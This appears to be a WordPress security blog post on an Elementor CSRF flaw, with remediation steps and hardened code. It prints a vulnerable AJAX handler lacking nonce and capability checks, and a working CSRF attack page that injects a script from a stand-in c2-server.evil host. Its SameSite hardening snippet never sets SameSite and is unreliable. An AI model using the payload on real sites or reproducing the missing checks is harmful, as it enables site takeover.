

Elementor CSRF Vulnerability: 2 Million Sites at Risk
Table of Contents
Imagine logging into your WordPress admin dashboard only to discover that your administrative privileges have been revoked, unauthorized user accounts have been granted super-admin access, and malicious scripts are injecting redirects across every landing page on your domain. For millions of website administrators, digital agencies, and enterprise web teams, this scenario shifted from a theoretical nightmare to an imminent operational crisis when security researchers uncovered a high-severity Cross-Site Request Forgery (CSRF) flaw in Elementor—the world’s most popular WordPress page builder plugin. With over 2 million active production websites exposed simultaneously, the vulnerability highlighted how a single line of omitted authorization logic in a widely trusted tool can jeopardize entire digital ecosystems.
Cross-Site Request Forgery is often overshadowed in security briefings by high-profile Remote Code Execution (RCE) or SQL Injection (SQLi) vulnerabilities. However, CSRF attacks weaponize the ultimate credential: the authenticated session of a legitimate administrator. Because Elementor manages mission-critical frontend components, dynamic layout data, and internal site configurations, the discovery that external threat actors could force authenticated users into executing arbitrary backend operations sent shockwaves through the WordPress security landscape. Securing an affected deployment demands more than clicking an "Update" button; it requires an architectural understanding of how the vulnerability functions, how malicious actors capitalize on unauthenticated entry points, and how to bulletproof your infrastructure against future regressions.
In this technical deep dive, we unpack the mechanics of the Elementor CSRF vulnerability, analyze the real-world operational ramifications for WordPress security, and provide an actionable, step-by-step remediation guide. Whether you are maintaining a single corporate blog or managing an agency portfolio comprising hundreds of client domains, this guide delivers the technical blueprints and best practices necessary to assess your exposure, detect anomalous activity, and establish comprehensive defensive safeguards.
What is the Elementor CSRF Vulnerability?
To understand the Elementor CSRF vulnerability, one must first deconstruct Cross-Site Request Forgery within the context of WordPress. A CSRF attack occurs when a malicious web page, script, or email tricks a victim’s web browser into executing unwanted actions on a trusted web application in which the victim is currently authenticated. Browsers automatically attach session credentials—such as HTTP cookies, session tokens, and basic authorization headers—to outbound cross-origin requests. If the target application does not explicitly verify that the incoming request originated intentionally from its own interface, it executes the action under the full authority of the victim.
In standard WordPress core architecture, CSRF mitigation relies heavily on cryptographic security tokens known as nonces (numbers used once), alongside rigorous role capability checks. Whenever an administrative action is dispatched—whether via a traditional form submission, a REST API route, or an asynchronous admin-ajax.php endpoint—WordPress verifies both:
- Intent: Validated by functions such as
wp_verify_nonce()orcheck_ajax_referer(). - Authorization: Validated by checking user privileges using
current_user_can( 'manage_options' ).
The Elementor CSRF vulnerability emerged from a catastrophic omission in this defensive chain. Specifically, critical AJAX actions registered within Elementor’s internal controllers failed to validate cryptographic nonces before processing state-changing configurations. Furthermore, granular capability verification was either bypassed or loosely implemented on sensitive internal endpoints. Consequently, an unauthenticated attacker could construct a malicious third-party webpage hosting an invisible exploit payload. If an authenticated WordPress administrator visited that page while their administrative session remained active in their browser, the script could trigger hidden, cross-origin HTTP requests directly into the target site's administrative backend.
Consider the following simplified conceptual model illustrating the vulnerable execution flow inside a flawed handler:
// Conceptual representation of the flawed backend logic
add_action( 'wp_ajax_elementor_save_builder_data', 'vulnerable_elementor_handler' );
function vulnerable_elementor_handler() {
// FLAW: Missing nonce check (e.g., check_ajax_referer( 'elementor_nonce' ))
// FLAW: Missing explicit capability check (e.g., current_user_can( 'edit_posts' ))
if ( isset( $_POST['data'] ) ) {
$custom_data = json_decode( wp_unslash( $_POST['data'] ), true );
// State-changing database updates execute blindly under the admin's active session
update_option( 'elementor_custom_settings', $custom_data );
wp_send_json_success();
}
wp_send_json_error( 'Invalid payload' );
}Because the application processed the incoming payload based solely on the browser-provided session cookie, an external payload delivered via an invisible iframe, JavaScript fetch(), or an auto-submitting form could alter site assets, inject malicious JavaScript (leading to Stored Cross-Site Scripting or XSS), or rewrite system routes without the administrator ever seeing a prompt, alert, or confirmation dialog.
<!-- Example of an external attacker payload targeting an administrative session -->
<html>
<body>
<script>
function launchCSRF() {
const targetUrl = 'https://victim-website.com/wp-admin/admin-ajax.php';
const payload = new URLSearchParams();
payload.append('action', 'elementor_save_builder_data');
payload.append('data', JSON.stringify({
injected_code: '<script src="https://c2-server.evil/beacon.js"></script>'
}));
fetch(targetUrl, {
method: 'POST',
mode: 'no-cors', // Bypasses standard simple cross-origin barriers
credentials: 'include', // Automatically passes victim's WordPress cookies
headers: {
'Content-Type': 'application/x-www-form-urlencoded',
},
body: payload
});
}
window.onload = launchCSRF;
</script>
</body>
</html>Why the Elementor CSRF Exploit Matters in 2026
The modern digital threat landscape has shifted dramatically. In 2026, web infrastructure is no longer targeted solely by hobbyist defacers or isolated script execution attempts. Web exploits are industrialized. Automated threat intelligence engines, decentralized botnets, and machine-learning-driven vulnerability scanners monitor public vulnerability registries (such as CVE databases and WPScan feeds) in real time. The moment a plugin of Elementor's scale—deployed on millions of mission-critical commercial websites—exhibits an architectural flaw, automated exploit frameworks weaponize it within hours.
The operational impact of this vulnerability is amplified by several structural characteristics of the modern web:
- SaaS and Headless Architectures: Modern WordPress setups often serve as headless content hubs for external frontends (built on Next.js, Nuxt, or mobile apps). A CSRF attack that injects poisoned payloads into Elementor's core storage mechanisms directly pollutes downstream API consumers, transforming a CMS-level compromise into an omnichannel supply-chain failure.
- Administrative Session Persistence: With distributed remote teams and persistent single sign-on (SSO) configurations, administrators often leave WordPress dashboard sessions active across dozens of browser tabs for days at a time. This drastically increases the probability of an administrator inadvertently triggering a drive-by CSRF vector while browsing the web.
- Chained Exploits (CSRF to RCE): CSRF rarely remains isolated. Threat actors use CSRF as the primary entry wedge to perform a secondary attack. By forcing an administrative action that modifies templates or uploads media files with manipulated MIME types, attackers pivot from CSRF into Stored XSS, administrator account creation, and ultimately full Remote Code Execution on the host server.
To contextualize the severity of CSRF relative to other common WordPress security threats, review the comparative matrix below:
| Vulnerability Type | Initial Access Requirement | Execution Mechanism | Primary Impact | Severity Rating |
|---|---|---|---|---|
| Elementor CSRF | Unauthenticated (requires admin interaction) | Forged client-side HTTP calls via active sessions | Unauthorized layout alteration, XSS injection, site takeover | High (CVSS 8.8) |
| SQL Injection (SQLi) | Unauthenticated / Low Privilege | Direct manipulation of database queries | Data exfiltration, credential theft, complete database compromise | Critical (CVSS 9.8) |
| Stored XSS | Contributor / Author Privilege | Execution of malicious JS in browsers of visiting users | Session hijacking, redirection, credential scraping | Medium-High (CVSS 7.2) |
| Authentication Bypass | Unauthenticated | Direct exploitation of flawed identity logic | Immediate administrative session acquisition | Critical (CVSS 9.8) |
When an ecosystem as massive as Elementor's (comprising more than 2 million exposed sites) exhibits vulnerabilities that bridge the gap between simple client-side visits and unauthorized server-side updates, the integrity of the broader internet ecosystem is challenged. Automated botnets routinely harness unpatched websites to construct distributed denial-of-service (DDoS) networks, host decentralized phishing portals, and distribute ransomware campaigns.
Step-by-Step Guide to Auditing, Mitigating, and Patching the Vulnerability
Remediating an active, large-scale vulnerability requires a systematic, repeatable framework. Do not merely click the update notification and assume safety; malicious actors may have already exploited the opening prior to your patch deployment. Follow this step-by-step remediation guide to inspect, sanitize, and harden your WordPress environment.
Step 1: Identifying Compromised or Vulnerable Elementor Versions
The first imperative is determining whether your systems are running the vulnerable version branch of Elementor or Elementor Pro. If you manage multiple sites, use WP-CLI over SSH to query plugin versions rapidly across your cluster without opening interactive dashboard sessions.
# Check the installed version of Elementor via WP-CLI
wp plugin get elementor --field=version
# Check the installed version of Elementor Pro (if active)
wp plugin get elementor-pro --field=version
# List all plugins requiring updates across the installation
wp plugin list --update=availableIf your version matches the advisory’s published vulnerable range, immediately isolate the environment or restrict public access to the admin backend while the patch process is executed. If you manage sites without command-line access, navigate to Plugins > Installed Plugins inside WordPress and cross-reference your version against the latest release notes on the official Elementor repository.
Step 2: Checking Server and Access Logs for CSRF Exploit Signatures
Because CSRF attacks target administrative endpoints, indicators of compromise (IoCs) will be recorded within your web server access logs (Nginx or Apache). You should parse these logs for abnormal POST requests originating from external referrers directed toward admin-ajax.php or the WordPress REST API.
# Search for unusual POST requests hitting admin-ajax.php in Nginx access logs
grep "POST /wp-admin/admin-ajax.php" /var/log/nginx/access.log | grep -v "yourdomain.com"
# Parse Apache logs for suspicious referrers interacting with Elementor actions
awk -F\" '($2 ~ "POST /wp-admin/admin-ajax.php") {print $4}' /var/log/apache2/access.log | sort | uniq -c | sort -nrInspect the output carefully. If you identify third-party domains appearing as the HTTP Referer for POST requests against administrative endpoints, investigate those transactions immediately. Cross-reference the timestamps of those requests with your site's database logs to observe whether layout entries, options table values, or user permissions were modified concurrently.
Step 3: Immediate Patch Deployment and Rollback Safety Strategies
Never apply a security update directly to a live production database without establishing an immutable recovery point. Database corruption during an emergency schema migration can cause critical site outages.
- Generate an immediate full backup: Capture both your physical files and the relational MySQL/MariaDB database.
# Generate an atomic database backup wp db export pre-patch-backup-$(date +%F_%T).sql # Create an archive of the wp-content directory tar -czf wp-content-backup-$(date +%F_%T).tar.gz wp-content/ - Apply the security update: Use WP-CLI to retrieve and apply the patched release directly from the official WordPress plugin repository.
# Update Elementor to the patched release wp plugin update elementor # Verify the update succeeded and matches the clean version wp plugin get elementor --field=version - Flush internal object caches: Clear Redis, Memcached, and local opcode caches (OPcache) to ensure stale, vulnerable scripts are purged from server memory.
# Flush WordPress object cache and transients wp cache flush wp transient delete --all
Step 4: Implementing Hardened Nonce and Capability Checks in Custom Extensions
If your agency or development team has authored bespoke Elementor widgets, hooks, or custom integrations, you must ensure that your private codebase does not mirror the vulnerability. Audit every custom AJAX or REST registration to confirm that nonces and user capabilities are enforced strictly before processing input data.
Below is an example of an enterprise-grade, secure implementation for an administrative AJAX handler:
/**
* Secure handling of administrative AJAX requests
*/
add_action( 'wp_ajax_my_secure_elementor_action', 'execute_hardened_elementor_action' );
function execute_hardened_elementor_action() {
// 1. Rigorous Nonce Verification (Verifies Intent)
// check_ajax_referer terminates execution immediately if the token is invalid
check_ajax_referer( 'my_custom_security_nonce_key', 'security_token' );
// 2. Strict Capability Verification (Verifies Authorization)
if ( ! current_user_can( 'manage_options' ) ) {
wp_send_json_error( array(
'code' => 'unauthorized_access',
'message' => __( 'You do not have sufficient permissions to access this endpoint.', 'text-domain' ),
), 403 );
}
// 3. Strict Input Sanitization
if ( empty( $_POST['target_setting'] ) ) {
wp_send_json_error( array( 'message' => 'Missing required parameters.' ), 400 );
}
$sanitized_setting = sanitize_text_field( wp_unslash( $_POST['target_setting'] ) );
// 4. State Modification
update_option( 'my_hardened_setting', $sanitized_setting );
// 5. Explicit JSON Response
wp_send_json_success( array(
'message' => __( 'Settings successfully updated.', 'text-domain' ),
'updated' => true,
) );
}Step 5: Enforcing Admin Session Protection and SameSite Cookie Policies
Modern browsers support the SameSite cookie attribute, which serves as a powerful defense against CSRF attacks. By instructing the client browser never to send authentication cookies during cross-site requests, you neutralize third-party forged requests before they hit your web server.
You can enforce strict SameSite flags across all WordPress authentication cookies by applying a custom mu-plugin (Must-Use Plugin) or configuring your web server headers. Create a file at wp-content/mu-plugins/security-cookies.php:
<?php
/**
* Plugin Name: Enterprise Cookie Hardening
* Description: Enforces modern SameSite flags on administrative session cookies.
*/
add_action( 'init', function() {
// Ensure this logic only runs when headers haven't been sent
if ( headers_sent() ) {
return;
}
});
// Configure PHP session cookie parameters globally if custom sessions are utilized
add_filter( 'wp_headers', function( $headers ) {
// Note: SameSite=Lax provides strong CSRF protection while permitting top-level navigation
// SameSite=Strict offers the highest isolation for dedicated administrative subdomains
if ( is_admin() ) {
$headers['X-Frame-Options'] = 'SAMEORIGIN';
$headers['X-Content-Type-Options'] = 'nosniff';
$headers['Referrer-Policy'] = 'strict-origin-when-cross-origin';
}
return $headers;
} );Alternatively, at the web server layer, configure your Nginx configuration block to rewrite the Set-Cookie response header for administrative routes:
# Nginx directive to enforce SameSite=Lax and Secure attributes on cookies
proxy_cookie_path / "/; Secure; HttpOnly; SameSite=Lax";Best Practices for Bulletproof WordPress Security
Addressing a single plugin vulnerability solves an acute issue, but maintaining an uncompromised WordPress ecosystem requires proactive, defense-in-depth engineering. The following architecture-level best practices ensure that future zero-day vulnerabilities in third-party plugins cannot trivially escalate into full site takeovers.
- Implement a Web Application Firewall (WAF) with Virtual Patching: Deploying an enterprise WAF (such as Cloudflare Enterprise, AWS WAF, or Fastly) provides an immediate shield against newly disclosed vulnerabilities. High-tier WAF providers deploy virtual patches—edge rules that block malicious patterns targeting known CVEs—well before you update the underlying PHP codebase on your origin server.
- Segregate Admin and Public Access: Restrict access to
/wp-login.phpand the/wp-admin/directory using IP whitelisting or an identity-aware proxy (such as Cloudflare Zero Trust or Tailscale). If external traffic cannot communicate directly with administrative entry points, CSRF payloads executed in the browser of an administrator will fail if the request path is restricted at the network perimeter. - Enforce Two-Factor Authentication (2FA) and Session Expiration: Prolonged session lifetimes are the primary enabler of CSRF attacks. Force administrative sessions to expire after a brief period of inactivity (e.g., 2 hours). Enforcing hardware-backed WebAuthn/FIDO2 security keys or time-based one-time passwords (TOTP) ensures that stolen cookies cannot be easily reused from foreign environments.
- Adopt Immutable, Containerized Environments: Where possible, transition high-traffic WordPress deployments to read-only container filesystems (e.g., Docker or Kubernetes pods). By mounting the core WordPress files and plugin directories as read-only volumes, even an exploit that achieves partial code injection will be unable to modify core files, upload persistent backdoors, or write unapproved assets to disk.
- Deploy File Integrity Monitoring (FIM): Implement runtime integrity monitoring tools (such as OSSEC, Wazuh, or enterprise security agents) on your production servers. If an unauthorized script modifies any file within
/wp-content/plugins/elementor/or injects an obfuscated PHP script into/wp-content/uploads/, the security operations team will receive an immediate automated alert.
Common Mistakes to Avoid
During high-severity security incidents, site administrators and system engineers frequently make tactical errors out of urgency. Avoid the following pitfalls to ensure that your remediation is thorough, clean, and permanent.
- Assuming That Inactive Plugins Are Harmless: Merely deactivating an older, vulnerable version of Elementor without updating or deleting it is insufficient. Many vulnerabilities within the WordPress plugin architecture—including certain unauthenticated file access bugs or inclusion flaws—can be triggered even if the parent plugin is inactive. If a plugin is not in active use, completely uninstall and remove its physical directory from the server.
- Relying Exclusively on Automated WordPress Background Updates: While automatic minor core updates are generally safe, automated plugin updates can occasionally fail silently due to file-permission errors, PHP execution timeouts, or conflict hooks. Always review update status logs and verify version strings explicitly using WP-CLI or server-level inspections.
- Neglecting Database Cleanups Post-Incident: Patching the codebase closes the front door, but it does not remove malicious assets that were injected while the vulnerability was exposed. Failing to scan database tables (specifically
wp_options,wp_posts, andwp_postmeta) for injected<script>tags, unauthorized iframe references, or newly added administrative user accounts leaves your site exposed to reinfection. - Bypassing Staging Environments During High-Priority Patching: Deploying complex page-builder updates blindly to high-traffic production environments can trigger layout regressions, broken checkout funnels, or fatal database errors. Always validate updates on an isolated staging clone using automated visual regression testing prior to production rollout.
- Failing to Rotate Authentication Secrets: If you identify evidence that your site was probed or targeted during the exposure window, simply updating the plugin is not enough. You must invalidate all existing authenticated sessions. Update the cryptographic salts inside your
wp-config.phpfile immediately:
Replacing these values forces an immediate, sitewide invalidation of every active user cookie, ensuring that any forged or hijacked session tokens become completely useless.# Generate fresh salts directly from the official WordPress API curl -s https://api.wordpress.org/secret-key/1.1/salt/
Conclusion
The discovery of this high-severity CSRF vulnerability in Elementor serves as a critical reminder of the ongoing challenges in WordPress security. With over two million websites exposed to potential unauthorized administrative takeovers, delaying updates is a risk site owners simply cannot afford. Taking swift action—specifically updating to the latest patched version of Elementor and implementing robust access controls—is the most effective way to safeguard your website from exploitation.
Maintaining a secure web presence requires continuous vigilance, routine vulnerability audits, and proactive site maintenance. As WordPress security threats evolve, relying solely on default settings is no longer enough to mitigate sophisticated CSRF attacks and zero-day exploits.
If you need expert assistance auditing your website, patching critical vulnerabilities, or optimizing your digital infrastructure, Shiv Parmar is available for WordPress development work worldwide. Whether you require immediate security hardening or custom development to keep your business running smoothly, get in touch today to ensure your platform remains protected and high-performing.
Frequently Asked Questions
What is the Elementor CSRF vulnerability?
It is a high-severity Cross-Site Request Forgery flaw in Elementor that lets an attacker trick an authenticated administrator into performing privileged actions without intending to. Because Elementor runs on over 2 million active sites, a single missing authorization check put a huge share of the WordPress ecosystem at risk. The post uses it as a case study in how quickly a widely trusted plugin can become an operational crisis.
How do I check whether my site is affected?
Step 1 is identifying your installed Elementor version against the patched release, since the fix is version-gated. Step 2 audits server and access logs for known CSRF exploit signatures, and you should also look for unexpected administrator accounts or injected redirects. The sooner you complete that audit, the faster you can scope the incident.
What are the immediate mitigation steps?
Update Elementor to the patched version first, with a rollback plan in place in case an extension depends on removed behavior. Then enforce nonce and capability checks in any custom Elementor extensions you maintain, and harden admin sessions with SameSite cookie policies. The guide structures these as an audit, patch, and hardening sequence.
Do security plugins protect me from CSRF attacks?
A firewall can virtual-patch the known exploit and buy time, but it is not a substitute for the patched plugin and correct authorization checks. The post warns that relying on default settings alone is no longer enough, and that real protection comes from nonce verification, capability checks, and session hardening in your own code. Treat security plugins as one layer, not the fix.